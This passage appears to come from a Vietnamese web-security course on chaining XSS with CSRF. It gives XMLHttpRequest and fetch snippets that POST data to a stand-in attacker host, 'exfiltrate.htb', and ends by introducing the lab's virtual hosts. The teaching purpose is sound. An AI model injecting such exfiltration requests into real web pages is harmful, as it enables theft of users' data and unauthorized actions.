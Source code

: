 Vì thế, việc khai thác CSRF truyền thống đã trở nên hiếm hơn trong thực tế. Tuy nhiên, nếu phát hiện một lỗ hổng XSS, ta có thể kết hợp khai thác cả **XSS** và **CSRF** để thực hiện các tấn công phức tạp hơn, không chỉ trên ứng dụng web đang bị tấn công mà còn có thể tấn công thêm các ứng dụng khác nằm trong mạng nội bộ của nạn nhân.

#### 3. **Sử dụng `XMLHttpRequest` và `Fetch API` để khai thác**

Để khai thác lỗ hổng CSRF và XSS, chúng ta có thể sử dụng **`XMLHttpRequest`** hoặc **`Fetch API`** để gửi các yêu cầu HTTP từ mã JavaScript. Chúng ta có thể chỉ định các tham số HTTP như phương thức, header, hoặc nội dung của yêu cầu.

##### **Ví dụ 1: Sử dụng `XMLHttpRequest` để gửi yêu cầu POST**

```javascript
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://exfiltrate.htb/', false);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('param1=hello&param2=world');
```

- **Giải thích**:
  - `xhr.open()`: Mở một yêu cầu POST đến URL `http://exfiltrate.htb/`.
  - `xhr.setRequestHeader()`: Thiết lập header `Content-Type` để chỉ định loại dữ liệu là `application/x-www-form-urlencoded`.
  - `xhr.send()`: Gửi yêu cầu với dữ liệu `param1=hello&param2=world`.

##### **Ví dụ 2: Sử dụng `Fetch API` để gửi yêu cầu POST**

```javascript
const response = await fetch('http://exfiltrate.htb/', {
  method: "POST",
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: 'param1=hello&param2=world',
});
```

- **Giải thích**:
  - `fetch()`: Hàm `fetch` nhận URL là tham số đầu tiên.
  - Tham số thứ hai là một đối tượng chứa các tham số của yêu cầu HTTP như phương thức, header, và nội dung.
  - `body`: Chứa dữ liệu sẽ được gửi trong yêu cầu POST.

---
# Giới thiệu về Môi trường Thực hành (Lab Environment)

#### **1. Giới thiệu về Môi trường Thực hành**

Trong module này, tất cả các bài lab sẽ tuân theo một cấu trúc chung với các **máy chủ ảo (virtual hosts)** được sử dụng để phát triển, tinh chỉnh, và thực hiện các khai thác của chúng ta. Phần này sẽ thảo luận về các công cụ có sẵn và cách chúng ta sử dụng chúng để khai thác các lỗ hổng **CSRF** và **XSS** khác nhau.
